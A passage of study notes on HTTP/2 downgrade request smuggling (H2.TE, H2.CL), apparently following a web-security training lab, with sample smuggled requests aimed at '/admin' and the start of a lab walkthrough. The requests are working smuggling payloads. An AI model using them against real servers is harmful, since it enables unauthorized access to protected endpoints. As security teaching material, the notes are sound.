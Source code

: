     GET /admin HTTP/1.1
    Host: vulnerable-website.com
    Content-Length: 10

    x=1GET / H

## H2.TE vulnerabilities
Chunked transfer encoding is incompatible with HTTP/2 and the spec recommends that any `transfer-encoding: chunked` header you try to inject should be stripped or the request blocked entirely. If the front-end server fails to do this, and subsequently downgrades the request for an HTTP/1 back-end that does support chunked encoding, this can also enable request smuggling attacks.

**Front-end (HTTP/2)**

    :method	POST
    :path	/example
    :authority	vulnerable-website.com
    content-type	application/x-www-form-urlencoded
    transfer-encoding	chunked
    0

    GET /admin HTTP/1.1
    Host: vulnerable-website.com
    Foo: bar

**Back-end (HTTP/1)**

    POST /example HTTP/1.1
    Host: vulnerable-website.com
    Content-Type: application/x-www-form-urlencoded
    Transfer-Encoding: chunked

    0

    GET /admin HTTP/1.1
    Host: vulnerable-website.com
    Foo: bar

### LAB: H2.CL request smuggling
First test for HTTP/2 downgrading. Send this request 2 times:

    POST / HTTP/2
    Host: 0a4500f704717dfa80f52195007d007e.web-security-academy.net
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 0

    x=

If we get an `404 Not Found` this indicates that HTTP/2 downgrading is happening. Notice an open redirect vulnerability in this request:

    GET /resources
    Host: 0a4500f704717dfa80f52195007d007e.web-security-academy.net

    HTTP/2 302 Found
    Location: https://0a4500f704717dfa80f52195007d007e.web-security-academy.net/resources/
